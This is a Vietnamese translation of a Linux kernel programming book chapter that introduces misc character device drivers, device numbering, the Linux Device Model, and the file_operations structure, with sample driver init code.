# Chương 1. Viết một misc character device driver đơn giản

Không còn nghi ngờ gì nữa, device driver là một chủ đề rộng lớn và thú vị. Không chỉ vậy, có lẽ chúng còn là cách sử dụng phổ biến nhất của Loadable Kernel Module (LKM) framework mà chúng ta đã dùng. Ở đây, chúng ta sẽ làm quen với việc viết một vài Linux character device driver đơn giản nhưng hoàn chỉnh, thuộc một class gọi là `misc`; đúng vậy, đó là viết tắt của miscellaneous. Chúng tôi muốn nhấn mạnh rằng chương này có phạm vi và mức độ bao quát giới hạn — ở đây, chúng tôi không cố đi sâu vào chi tiết của Linux driver model cùng nhiều framework của nó; thay vào đó, chúng tôi giới thiệu một số sách và hướng dẫn xuất sắc về chủ đề này qua mục Đọc thêm của chương. Mục tiêu ở đây là nhanh chóng giúp bạn làm quen với những khái niệm tổng thể đằng sau việc viết một character device driver đơn giản.

Dù vậy, cuốn sách này thực sự có một số chương dành riêng cho những gì người viết driver cần biết. Ngoài chương mở đầu này, chúng tôi trình bày chi tiết cách người viết driver làm việc với hardware I/O memory, hardware interrupt handling (và nhiều sub-topics của nó), cùng các cơ chế kernel như delay, timer, kernel thread và work queue. Việc sử dụng các user-kernel communication pathway hay interface khác nhau cũng được trình bày chi tiết. Hai chương cuối của cuốn sách sau đó tập trung vào điều rất quan trọng đối với mọi hoạt động phát triển kernel, bao gồm driver — kernel synchronization. Những lý do khác khiến chúng tôi muốn viết một Linux character device driver đơn giản thay vì chỉ kernel module “thông thường” là:

- Cho đến nay, các kernel module của chúng ta khá đơn giản, chỉ có các hàm `init` và `cleanup`, không có gì hơn. Một device driver cung cấp một số entry point vào kernel; đây là các system call file-related, được gọi là method của driver. Vì vậy, chúng ta có thể có method `open()`, method `read()`, method `write()`, method `llseek()`, method `[unlocked|compat]_ioctl()`, method `release()`, v.v.

Để bạn biết thêm, mọi “method” (hàm) mà người viết driver có thể hook vào đều nằm trong cấu trúc dữ liệu kernel quan trọng này: `include/linux/fs.h:file_operations` (sẽ nói thêm trong mục Tìm hiểu mối liên hệ giữa process, driver và kernel).

- Tình huống này đơn giản là thực tế hơn và thú vị hơn.

Trong chương này, chúng ta sẽ đề cập các chủ đề sau:

- Bắt đầu viết một misc character device driver đơn giản

- Sao chép dữ liệu từ kernel sang user space và ngược lại

- Một misc driver có bí mật

- Các vấn đề và mối quan ngại về bảo mật

## Yêu cầu kỹ thuật

Tôi giả định rằng bạn đã đọc mục Để tận dụng tối đa cuốn sách này trong Lời nói đầu, đã chuẩn bị thích hợp một guest VM chạy Ubuntu 18.04 LTS (hoặc bản phát hành ổn định mới hơn), và cài đặt mọi package cần thiết. Nếu chưa, tôi rất khuyến nghị bạn làm việc này trước. Để tận dụng tối đa cuốn sách này, tôi đặc biệt khuyến nghị bạn trước hết thiết lập môi trường workspace, bao gồm clone GitHub repository chứa code của sách, rồi hands-on trên đó. Bạn có thể tìm repository ở đây: `https://github.com/PacktPublishing/Linux-Kernel-Programming-Part-2`.

## Bắt đầu viết một misc character device driver đơn giản

Trong mục này, trước hết bạn sẽ học kiến thức nền cần thiết — tìm hiểu những điều cơ bản về device file (hay node) và hệ thống phân cấp của nó. Sau đó, bằng cách thực sự viết code của một `misc` character driver rất đơn giản, bạn sẽ tìm hiểu kernel framework phía sau raw character device driver. Trong quá trình đó, chúng ta sẽ trình bày cách tạo device node và kiểm thử driver qua một ứng dụng user space. Bắt đầu thôi!

### Tìm hiểu kiến thức cơ bản về device

Trước hết cần điểm qua một ít kiến thức nền.

Một device driver là interface giữa OS và một thiết bị phần cứng ngoại vi. Nó có thể được viết inline — tức là biên dịch bên trong kernel image file — hoặc, phổ biến hơn, được viết bên ngoài kernel source tree dưới dạng kernel module (chúng ta đã trình bày chi tiết LKM framework trong tài liệu đồng hành Linux Kernel Programming, Chương 4, Viết kernel module đầu tiên — LKM Phần 1, và Chương 5, Viết kernel module đầu tiên — LKM Phần 2). Dù theo cách nào, driver code chắc chắn chạy với đặc quyền OS, trong kernel space (user space device driver có tồn tại, nhưng có thể gặp vấn đề hiệu năng; mặc dù hữu ích trong nhiều trường hợp, chúng ta không trình bày ở đây. Hãy xem mục Đọc thêm).

Để một ứng dụng user space truy cập được device driver bên dưới trong kernel, cần có một cơ chế I/O nào đó. Thiết kế của Unix (và do đó cả Linux) là để process mở một loại file đặc biệt — device file, hay device node. Các file này thường nằm trong thư mục `/dev`, và trên những hệ thống hiện đại, chúng có tính động và được tự động tạo đầy đủ. Device node đóng vai trò entry point vào device driver.

Để kernel phân biệt các device file, nó dùng hai thuộc tính trong cấu trúc dữ liệu inode của chúng:

- Loại file — character (char) hoặc block

- Major number và minor number

Bạn sẽ thấy namespace — loại device và cặp `{major#, minor#}` — tạo thành một hệ thống phân cấp. Device (và do đó cả driver của chúng) được tổ chức theo một hệ thống phân cấp tree-like trong kernel (driver core code trong kernel đảm nhiệm việc này). Hệ thống phân cấp trước hết được chia theo loại device — block hoặc char. Trong mỗi loại, chúng ta có n major number, và mỗi major number lại được phân loại thông qua m minor number; Hình 1.1 thể hiện hệ thống phân cấp này.

Khác biệt chính giữa block device và character device là block device có khả năng (kernel-level) được mount và do đó trở thành một phần của filesystem user-accessible. Character device không thể được mount; vì vậy, thiết bị lưu trữ thường dựa trên block. Hãy nghĩ như sau (hơi đơn giản hóa nhưng hữu ích): nếu thiết bị (phần cứng) không phải thiết bị lưu trữ, cũng không phải thiết bị mạng, thì đó là character device. Rất nhiều thiết bị thuộc class “character”, bao gồm các sensor chip I2C/SPI (Inter Integrated Circuit / Serial Peripheral Interface) thông thường (nhiệt độ, áp suất, độ ẩm, v.v.), màn hình cảm ứng, Real-Time Clock (RTC), media (video, camera, audio), bàn phím, chuột, v.v. USB tạo thành một class trong kernel để hỗ trợ hạ tầng. USB device có thể là block device (pen drive, USB disk), character device (chuột, bàn phím, camera) hoặc network device (USB dongle).

Từ Linux 2.6 trở đi, cặp `{major:minor}` là một đại lượng unsigned 32-bit duy nhất trong inode, một bitmask (đó là member `dev_t i_rdev`). Trong 32 bit này, 12 bit MSB biểu diễn major number và 20 bit LSB còn lại biểu diễn minor number. Tính nhanh cho thấy do đó có thể có tới 2<sup>12</sup> = 4.096 major number và 2<sup>20</sup>, tức một triệu, minor number cho mỗi major number. Vì vậy, hãy nhìn Hình 1.1; trong hệ thống phân cấp block, có thể có 4.096 major, mỗi major có thể có tới 1 triệu minor. Tương tự, trong hệ thống phân cấp character, có thể có 4.096 major, mỗi major có thể có tới 1 triệu minor:



Hình 1.1 – Device namespace hay hệ thống phân cấp device

Bạn có thể thắc mắc: chính xác cặp số major:minor này có ý nghĩa gì? Hãy xem major number là đại diện cho class của device (nó là SCSI disk, bàn phím, thiết bị teletype terminal (tty) hay pseudo-terminal (pty), loopback device (đúng vậy, đây là pseudo-hardware device), joystick, tape device, framebuffer, sensor chip, màn hình cảm ứng, v.v.?). Thật sự có rất nhiều loại device; để hình dung số lượng đó lớn đến mức nào, chúng tôi khuyến khích bạn xem kernel documentation tại đây: `https://www.kernel.org/doc/Documentation/admin-guide/devices.txt` (đây chính là sổ đăng ký chính thức của mọi device hiện có cho Linux OS. Tên chính thức là LANANA — Linux Assigned Names And Numbers Authority! Chỉ những người này mới có thể chính thức gán device node — loại và các số major:minor — cho device).

Ý nghĩa (cách diễn giải) của minor number hoàn toàn do người viết driver quyết định; kernel không can thiệp. Thông thường, driver diễn giải minor number của device là đại diện cho một instance vật lý hoặc logic của device, hoặc đại diện cho một chức năng nhất định. (Ví dụ, driver Small Computer System Interface (SCSI) — loại block, major `#8` — dùng minor number để biểu diễn các disk partition logic cho tối đa 16 disk. Mặt khác, character major `#119` được virtual network control driver của VMware sử dụng. Ở đây, minor được diễn giải là virtual network thứ nhất, virtual network thứ hai, v.v.) Tương tự, mọi driver tự gán ý nghĩa cho minor number của mình. Nhưng quy tắc tốt nào cũng có ngoại lệ. Ở đây, ngoại lệ của quy tắc kernel không diễn giải minor number là class `misc` (loại character, major `#10`). Nó dùng minor number như major second-level. Điều này sẽ được trình bày trong mục tiếp theo.

Một vấn đề phổ biến là namespace bị dùng hết. Một quyết định được đưa ra nhiều năm trước đã “gom” nhiều character device linh tinh — nhiều loại chuột (không phải loài thuộc thế giới động vật), cảm biến, màn hình cảm ứng, v.v. — vào một class gọi là `misc` hay “miscellaneous”, được gán character major number `10`. Trong class `misc` có rất nhiều device cùng driver tương ứng. Trên thực tế, chúng dùng chung major number và dựa vào minor number duy nhất để nhận diện bản thân. Chúng ta sẽ viết một vài driver sử dụng chính class này và kernel framework “misc”. Nhiều device đã được LANANA (Linux Assigned Names And Numbers Authority) gán vào class character device `misc`. Hình 1.2 thể hiện một phần ảnh chụp từ `https://www.kernel.org/doc/Documentation/admin-guide/devices.txt`, hiển thị vài device `misc` đầu tiên, minor number được gán và mô tả ngắn. Hãy xem liên kết tham khảo để có danh sách đầy đủ:



Hình 1.2 – Một phần ảnh chụp các misc device: loại char, major # 10

Trong Hình 1.2, cột ngoài cùng bên trái có `10 char`, chỉ định major `# 10` được gán dưới loại character trong hệ thống phân cấp device (Hình 1.1). Các cột bên phải có dạng `minor# = /dev/<foo> <description>`; khá rõ ràng, đó là minor number được gán, theo sau (sau dấu `=`) là device node và mô tả one-line.

### Ghi chú nhanh về Linux Device Model

Không đi quá sâu vào chi tiết, một cái nhìn tổng quan nhanh về Linux Device Model (LDM) thống nhất hiện đại là điều quan trọng. Linux hiện đại, từ kernel 2.6 trở đi, có một tính năng tuyệt vời là LDM, đạt được nhiều mục tiêu liên quan đến hệ thống và các device trên đó bằng một thay đổi lớn và táo bạo. Trong nhiều tính năng, nó tạo ra một cây phân cấp phức tạp thống nhất các thành phần hệ thống, mọi thiết bị ngoại vi và driver của chúng. Chính cây này được cung cấp cho user space qua pseudo-filesystem sysfs (tương tự cách procfs cung cấp một số chi tiết nội bộ của kernel và process/thread cho user space) và thường được mount dưới `/sys`. Trong `/sys`, bạn sẽ thấy một số thư mục — có thể xem chúng là các “khung nhìn” vào LDM. Trên Ubuntu VM x86\_64 của chúng ta, chúng ta hiển thị sysfs filesystem được mount dưới `/sys`:

```
$ mount | grep -w sysfs
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
```

Ngoài ra, hãy nhìn vào bên trong:

```
$ ls -F /sys/
block/ bus/ class/ dev/ devices/ firmware/ fs/ hypervisor/ kernel/ module/
power/
```

Hãy xem các thư mục này là khung nhìn vào LDM — những cách khác nhau để xem các device trên hệ thống. Tất nhiên, khi mọi thứ phát triển, thường có nhiều thứ được thêm vào hơn là bỏ ra (khía cạnh phình to!). Hiện một số thư mục non-obvious đã xuất hiện ở đây. Mặc dù (cũng như procfs) sysfs được tài liệu chính thức mô tả là một interface Application Binary Interface (ABI), có thể thay đổi/bị ngừng khuyến nghị bất cứ lúc nào, thực tế là hệ thống này sẽ tồn tại — và tất nhiên tiếp tục phát triển — theo thời gian.

Nói hơi đơn giản, có thể xem LDM là có — và gắn kết — các thành phần chính sau:

- Các bus trên hệ thống.

- Các device trên chúng.

- Các device driver điều khiển device (cũng thường gọi là client driver).

Một nguyên tắc nền tảng của LDM là mỗi device đều phải nằm trên một bus. Điều này có vẻ hiển nhiên: USB device nằm trên USB bus, PCI device trên PCI bus, I2C device trên I2C bus, v.v. Vì vậy, dưới hệ thống phân cấp `/sys/bus`, bạn thực sự có thể “thấy” mọi device qua bus mà chúng nằm trên đó:



Hình 1.3 – Các bus hay hạ tầng bus driver khác nhau trên Linux hiện đại (trên x86\_64)

Driver core của kernel cung cấp bus driver (thường là một phần của chính kernel image hoặc được auto-loaded lúc boot khi cần), tất nhiên giúp các bus làm công việc của chúng. Công việc đó là gì? Điều quan trọng là chúng tổ chức và nhận diện các device trên bus. Nếu một device mới xuất hiện (có thể bạn vừa cắm pen drive), USB bus driver sẽ nhận ra và bind nó với device driver (USB mass storage) tương ứng! Sau khi bind thành công (có nhiều thuật ngữ được dùng để mô tả: bound, enumerated, discovered), kernel driver framework gọi method (hàm) `probe()` đã đăng ký của driver. Probe method này lúc đó thiết lập device, cấp phát tài nguyên, IRQ, thiết lập memory, đăng ký theo yêu cầu, v.v.

Một khía cạnh quan trọng khác cần hiểu về LDM là driver hiện đại LDM-based thường phải làm những việc sau:

- Đăng ký bản thân với một kernel framework (chuyên biệt).

- Đăng ký bản thân với một bus.

Kernel framework mà driver đăng ký phụ thuộc vào loại device bạn đang làm việc; chẳng hạn, driver cho RTC chip nằm trên I2C bus sẽ đăng ký với RTC framework của kernel (qua API `rtc_register_device()`) và với I2C bus (nội bộ qua API `i2c_register_driver()`). Mặt khác, driver cho network adapter (NIC) trên PCI bus thường đăng ký với hạ tầng network của kernel (qua API `register_netdev()`) và PCI bus (qua API `pci_register_driver()`). Đăng ký với kernel framework chuyên biệt giúp công việc của người viết driver dễ dàng hơn nhiều — kernel thường cung cấp helper routine (và cả cấu trúc dữ liệu) để xử lý chi tiết I/O, v.v. Ví dụ, hãy xét RTC chip driver vừa đề cập. Bạn không cần biết chi tiết cách giao tiếp với chip qua I2C bus, bit banging dữ liệu trên các đường Serial Clock (SCL)/Serial Data (SDA) theo yêu cầu của giao thức I2C. Kernel I2C bus framework cung cấp các routine tiện ích (như những API `i2c_smbus_*()` thường được dùng), cho phép bạn giao tiếp qua bus với chip đang xét gần như không tốn công!

Nếu bạn đang thắc mắc cách tìm thêm thông tin về các driver API này, thì có tin tốt: kernel documentation chính thức cung cấp rất nhiều thông tin. Hãy xem The Linux driver implementer’s API guide tại đây: `https://www.kernel.org/doc/html/latest/driver-api/index.html`.

(Chúng ta sẽ trình bày một số ví dụ về method `probe()` của driver trong hai chương tiếp theo; đến lúc đó, xin hãy kiên nhẫn.) Ngược lại, khi device bị tách khỏi bus hoặc kernel module được gỡ (hoặc hệ thống đang tắt), việc tách này khiến method `remove()` (hoặc `disconnect()`) của driver được gọi. Giữa các thời điểm đó, công việc của device được thực hiện qua các driver của nó (cả bus lẫn client)!

Lưu ý rằng ở đây chúng ta chỉ lướt qua nhiều chi tiết nội bộ vì chúng nằm ngoài phạm vi cuốn sách. Mục đích là giúp bạn hiểu LDM về mặt khái niệm. Hãy tham khảo các bài viết và liên kết trong mục Đọc thêm để có thông tin chi tiết hơn.

Ở đây, chúng tôi muốn phần trình bày driver thật đơn giản và tối thiểu, tập trung hơn vào kiến thức cơ bản bên dưới. Vì vậy, chúng tôi đã chọn viết một driver dùng kernel framework có lẽ đơn giản nhất — kernel framework `misc` hay miscellaneous. Trong trường hợp này, driver thậm chí không cần đăng ký tường minh với bất kỳ bus (driver) nào. Thực ra, nó gần như thế này: driver làm việc trực tiếp trên phần cứng mà không cần hỗ trợ từ bất kỳ hạ tầng bus cụ thể nào.

Trong ví dụ cụ thể dùng kernel framework `misc` này, vì không đăng ký tường minh với bus (driver) nào, chúng ta thậm chí không cần các method `probe()`/`remove()`. Điều này giữ mọi thứ đơn giản. Mặt khác, khi đã hiểu driver đơn giản nhất này, tôi khuyến khích bạn tiến xa hơn và tìm hiểu việc viết device driver với đăng ký kernel framework thông thường cộng với đăng ký bus driver, qua đó sử dụng các method `probe()`/`remove()`. Một cách tốt để bắt đầu là học viết platform driver đơn giản, đăng ký nó với framework `misc` của kernel và platform bus, một hạ tầng pseudo-bus hỗ trợ các device không nằm vật lý trên bus vật lý nào (điều này phổ biến hơn bạn thoạt nghĩ; một số ngoại vi tích hợp trong System on Chip (SoC) hiện đại không nằm trên bus vật lý nào, nên driver của chúng thường là platform driver). Để bắt đầu, hãy tìm code gọi API `platform_driver_register()` trong `drivers/` dưới kernel source tree. Kernel documentation chính thức tại đây trình bày platform device và driver: `https://www.kernel.org/doc/html/latest/driver-api/driver-model/platform.html#platform-devices-and-drivers`.

Để hỗ trợ thêm, hãy lưu ý: - Hãy tham khảo `Chapter 2`, User-Kernel Communication Pathways, đặc biệt các mục Tạo một platform device đơn giản và Platform device. - Một bài tập (xem mục Câu hỏi) của chương này là viết driver như vậy. Tôi đã cung cấp một triển khai mẫu (và rất đơn giản) tại đây: `solutions_to_assgn/ch12/misc_plat/`.

Tuy nhiên, chúng ta vẫn cần hỗ trợ từ framework `misc` của kernel, nên đăng ký bản thân với nó. Tiếp theo, cũng cần hiểu điều này: driver của chúng ta là driver logic, theo nghĩa không có device hoặc chip vật lý thực sự nào mà nó điều khiển. Đây là trường hợp khá phổ biến (tất nhiên, bạn có thể nói rằng ở đây, phần cứng đang được xử lý là RAM).

Vì vậy, nếu muốn viết Linux character device driver thuộc class `misc` này, trước hết chúng ta cần đăng ký bản thân với nó. Sau đó, cần một minor number duy nhất (chưa được dùng). Một lần nữa, có cách để kernel gán động cho chúng ta một minor number còn trống. Mục tiếp theo trình bày những khía cạnh này và nhiều điều khác.

### Viết code misc driver – phần 1

Không chần chừ nữa, hãy xem code để viết một skeleton character device driver `misc` đơn giản! (Thực ra là các đoạn code thực tế; như thường lệ, tôi rất khuyến nghị bạn `git` `clone` GitHub repository của sách, xem chi tiết và tự thử code.)

Hãy đi từng bước: trong code `init` của device driver đầu tiên (dùng LKM framework), trước hết phải đăng ký driver với framework thích hợp của Linux kernel; trong trường hợp này là framework `misc`. Việc này được thực hiện qua API `misc_register()`. Nó nhận một tham số, một pointer đến cấu trúc dữ liệu kiểu `miscdevice`, mô tả miscellaneous device mà chúng ta đang thiết lập:

```
// ch1/miscdrv/miscdrv.c
#define pr_fmt(fmt) "%s:%s(): " fmt, KBUILD_MODNAME, __func__
[...]
#include <linux/miscdevice.h>
#include <linux/fs.h>              /* the fops, file data structures */
[...]

static struct miscdevice llkd_miscdev = {
    .minor = MISC_DYNAMIC_MINOR, /* kernel dynamically assigns a free
minor# */
    .name = "llkd_miscdrv",      /* when misc_register() is invoked, the
kernel
             * will auto-create a device file as /dev/llkd_miscdrv ;
             * also populated within /sys/class/misc/ and
/sys/devices/virtual/misc/ */
    .mode = 0666,            /* ... dev node perms set as specified here */
    .fops = &llkd_misc_fops, /* connect to this driver's 'functionality' */
};

static int __init miscdrv_init(void)
{
    int ret;
    struct device *dev;

    ret = misc_register(&llkd_miscdev);
    if (ret != 0) {
        pr_notice("misc device registration failed, aborting\n");
        return ret;
    }
    [ ... ]
```

Trong instance của cấu trúc `miscdevice`, chúng ta làm như sau:

1\. Đặt field `minor` thành `MISC_DYNAMIC_MINOR`. Điều này có tác dụng yêu cầu kernel gán động một minor number sẵn có cho chúng ta (sau khi đăng ký thành công, field `minor` này được điền minor number thực tế đã gán).

2\. Khởi tạo field `name`. Khi đăng ký thành công, điều này khiến kernel framework tự động tạo device node (dạng `/dev/<name>`) thay cho chúng ta! Như dự kiến, loại sẽ là character, major number là `10`, còn minor number là giá trị được gán động. Đây là (một phần) lợi ích của việc dùng kernel framework; nếu không, có lẽ chúng ta phải nghĩ cách tự tạo device node; nhân tiện, tiện ích `mknod(1)` có thể tạo device file khi được gọi với đặc quyền root (hoặc bạn có capability `CAP_MKNOD`); nó hoạt động bằng cách gọi system call `mknod(2)`!

3\. Quyền của device node sẽ được đặt thành giá trị mà bạn dùng để khởi tạo field `mode` (ở đây, chúng ta cố ý cho phép rộng rãi, mọi người đều có thể readable-writeable thông qua giá trị bát phân `0666`).

4\. Chúng ta sẽ hoãn thảo luận về structure member file operations (`fops`) đến mục sau mục này.

Mọi driver `misc` đều thuộc loại character và dùng cùng major number (`10`), nhưng tất nhiên cần minor number duy nhất.

#### Tìm hiểu mối liên hệ giữa process, driver và kernel

Ở đây, chúng ta sẽ tìm hiểu một chút kernel internals liên quan đến việc đăng ký thành công một character device driver trên Linux. Trên thực tế, bạn sẽ hiểu hoạt động của raw character driver framework bên dưới.

Cấu trúc `file_operations`, hay fops (phát âm eff-opps) như thường được gọi, có vai trò tối quan trọng với người viết driver; phần lớn member của cấu trúc fops là function pointer — hãy xem chúng như virtual method. Chúng biểu diễn mọi system call file-related có thể được gọi trên một (device) file. Vì vậy, nó có các member `open`, `read`, `write`, `poll`, `mmap`, `release` và nhiều member khác (phần lớn là function pointer). Một vài member của cấu trúc dữ liệu quan trọng này được trình bày ở đây:

```
// include/linux/fs.h
struct file_operations {
    struct module *owner;
    loff_t (*llseek) (struct file *, loff_t, int);
    ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);
    ssize_t (*write) (struct file *, const char __user *, size_t, loff_t
*);
[...]
    __poll_t (*poll) (struct file *, struct poll_table_struct *);
    long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long);
    long (*compat_ioctl) (struct file *, unsigned int, unsigned long);
    int (*mmap) (struct file *, struct vm_area_struct *);
    unsigned long mmap_supported_flags;
    int (*open) (struct inode *, struct file *);
    int (*flush) (struct file *, fl_owner_t id);
    int (*release) (struct inode *, struct file *);
[...]
    int (*fadvise)(struct file *, loff_t, loff_t, int);
} __randomize_layout;
```

Một nhiệm vụ chính của người viết driver (hoặc kernel framework bên dưới) là điền các function pointer này, qua đó liên kết chúng với code thực tế trong driver. Tất nhiên bạn không cần triển khai mọi hàm; hãy xem mục Xử lý các method không được hỗ trợ để biết chi tiết.

Bây giờ, giả sử bạn đã viết driver để thiết lập các hàm cho một số method `f_op`. Khi driver đã được đăng ký với kernel, thường thông qua một kernel framework, lúc bất kỳ user space process (hoặc thread) nào mở device file được đăng ký cho driver này, layer Virtual Filesystem Switch (VFS) của kernel sẽ tiếp quản. Không đi sâu vào chi tiết, chỉ cần nói rằng VFS cấp phát và khởi tạo cấu trúc dữ liệu open file (`struct file`) của process đó cho device file. Bây giờ, hãy nhớ dòng cuối trong phần khởi tạo `struct` `miscdevice`; đó là:

```
   .fops = &llkd_misc_fops, /* connect to this driver's 'functionality' */
```

Dòng code này có tác dụng quan trọng: nó gắn file operations pointer của process (nằm trong cấu trúc open file của process) với cấu trúc file operations của device driver. Chức năng — những gì driver sẽ làm — giờ đã được thiết lập cho device file này! Hãy làm rõ hơn. Bây giờ (sau khi driver đã tự khởi tạo), một user-mode process mở device file của driver bằng cách gọi system call `open(2)` trên file đó. Giả sử mọi thứ diễn ra tốt đẹp (và phải như vậy), process lúc này được kết nối với driver qua các structure pointer `file_operations` nằm sâu trong kernel. Đây là điểm quan trọng: sau khi system call `open(2)` trả về thành công, và process gọi bất kỳ system call file-related `foo()` nào trên (device) file đó, kernel VFS layer, hoạt động theo kiểu object-oriented (chúng ta đã nêu điều này trước đây trong sách!), sẽ tin tưởng tuyệt đối mà gọi method `fops->foo()` đã đăng ký! File do user space process mở, thường là device file trong `/dev`, được biểu diễn nội bộ bằng cấu trúc metadata `struct file` (một pointer đến cấu trúc này, `struct file *filp`, được truyền cho driver). Vì vậy, xét theo pseudo-code, khi user space gọi system call file-related `foo()`, đây là điều kernel VFS layer thực sự làm:

```
/* pseudocode: kernel VFS layer (not the driver) */
if (filp->f_op->foo)
    filp->f_op->foo(); /* invoke the 'registered' driver method
corresponding to 'foo()' */
```

Do đó, nếu user space process đã mở device file gọi system call `read(2)` trên file đó, kernel VFS sẽ gọi `filp->f_op->read(...)`, thực chất chuyển quyền điều khiển đến device driver. Công việc của bạn với tư cách người viết device driver là cung cấp chức năng của `read(2)`! Điều tương tự áp dụng cho mọi system call file-related khác. Về cơ bản, đây là cách Unix và Linux triển khai nguyên tắc thiết kế well-known nếu không phải process thì là file.

##### Xử lý các method không được hỗ trợ

Bạn không cần điền mọi member của cấu trúc `f_ops`, chỉ những member mà driver hỗ trợ. Nếu bạn đã điền một vài method nhưng bỏ qua, chẳng hạn, method `poll`, và user space process gọi `poll(2)` trên device (có lẽ bạn đã ghi tài liệu rằng không được làm vậy, nhưng nếu nó vẫn làm thì sao?), điều gì sẽ xảy ra? Trong những trường hợp này, kernel VFS phát hiện pointer `foo` (trong ví dụ là `poll`) bằng `NULL` sẽ trả về một số nguyên âm thích hợp (thực chất tuân theo cùng giao thức `0`/`-E`). Code `glibc` sẽ nhân giá trị này với `-1` và đặt biến `errno` của process gọi thành giá trị đó, báo hiệu system call thất bại. Có hai điểm cần lưu ý:

- Khá thường xuyên, giá trị `errno` âm mà VFS trả về không trực quan lắm. (Ví dụ, nếu bạn đặt function pointer `read()` của `f_op` thành `NULL`, VFS khiến giá trị `EINVAL` được gửi trả. Điều này làm user space process nghĩ rằng `read(2)` thất bại vì lỗi `"Invalid argument"`, trong khi hoàn toàn không phải vậy!)

- System call `lseek(2)` khiến driver seek đến một vị trí quy định trong file — ở đây tất nhiên ý chúng ta là trong device. Kernel cố ý đặt tên function pointer `f_op` là `llseek` (chú ý hai chữ '`l`'). Điều này chỉ để nhắc rằng giá trị trả về từ `lseek` có thể là đại lượng 64-bit (long long). Với phần lớn device phần cứng, giá trị `lseek` không có ý nghĩa, nên hầu hết driver không cần triển khai nó (khác với filesystem). Vấn đề là: ngay cả khi bạn không hỗ trợ `lseek` (đã đặt member `llseek` của `f_op` thành `NULL`), nó vẫn trả về một giá trị dương ngẫu nhiên, khiến ứng dụng user-mode kết luận sai rằng nó đã thành công. Do đó, nếu không triển khai `lseek`, bạn phải làm như sau:

1\. Đặt tường minh `llseek` thành giá trị đặc biệt `no_llseek`, khiến một giá trị thất bại (`-ESPIPE`; `illegal seek`) được trả về.

2\. Trong những trường hợp này, bạn cũng phải gọi hàm `nonseekable_open()` trong method `open()` của driver, chỉ định rằng file non-seekable (hàm thường được gọi như thế này trong method `open()`: `return nonseekable_open(struct inode *inode,` `struct file *filp);`. Chi tiết cùng những thông tin khác được trình bày trong các bài viết LWN ở đây: `https://lwn.net/Articles/97154/`. Bạn có thể xem các thay đổi mà việc này mang lại cho nhiều driver ở đây: `https://lwn.net/Articles/97180/`).

Một giá trị thích hợp để trả về nếu không hỗ trợ một hàm là `-ENOSYS`, khiến user-mode process thấy lỗi `Function not implemented` (khi gọi library API `perror(3)` hoặc `strerror(3)`). Điều này rõ ràng, không mơ hồ; nhà phát triển user space lúc đó sẽ hiểu rằng driver không hỗ trợ hàm này. Vì vậy, một cách triển khai driver là thiết lập pointer đến mọi file operation method và viết routine cho mọi system call file-related (các method `f_op`) trong driver. Với những method bạn hỗ trợ, hãy viết code; với những method không triển khai, chỉ cần trả về giá trị `-ENOSYS`. Mặc dù hơi mất công, cách này tạo ra các giá trị trả về rõ ràng cho user space.

### Viết code misc driver – phần 2

Với kiến thức này, hãy xem lại code `init` của `ch1/miscdrv/miscdrv.c`. Bạn sẽ thấy, đúng như mô tả trong mục trước, chúng ta đã khởi tạo member `fops` của struct `miscdev` bằng một cấu trúc `file_operations`, qua đó thiết lập chức năng của driver. Đoạn code liên quan (từ driver của chúng ta) như sau:

```
static const struct file_operations llkd_misc_fops = {
    .open = open_miscdrv,
    .read = read_miscdrv,
    .write = write_miscdrv,
    .release = close_miscdrv,
};

static struct miscdevice llkd_miscdev = {
    [ ... ]
    .fops = &llkd_misc_fops,     /* connect to this driver's
'functionality' */
};
```

Vậy giờ bạn đã thấy: khi một user space process (hoặc thread) đã mở device file gọi, chẳng hạn, system call `read(2)`, kernel VFS layer sẽ lần theo các pointer (nói chung là `filp->f_op->foo()`) và gọi hàm `read_miscdrv()`, thực chất trao quyền điều khiển cho device driver! Cách viết chính xác read method được trình bày trong mục tiếp theo.

Tiếp tục code `init` của driver `misc` đơn giản:

```
    [ ... ]
    /* Retrieve the device pointer for this device */
    dev = llkd_miscdev.this_device;
    pr_info("LLKD misc driver (major # 10) registered, minor# = %d,"
            " dev node is /dev/%s\n", llkd_miscdev.minor,
llkd_miscdev.name);
    dev_info(dev, "sample dev_info(): minor# = %d\n", llkd_miscdev.minor);
    return 0;        /* success */
}
```

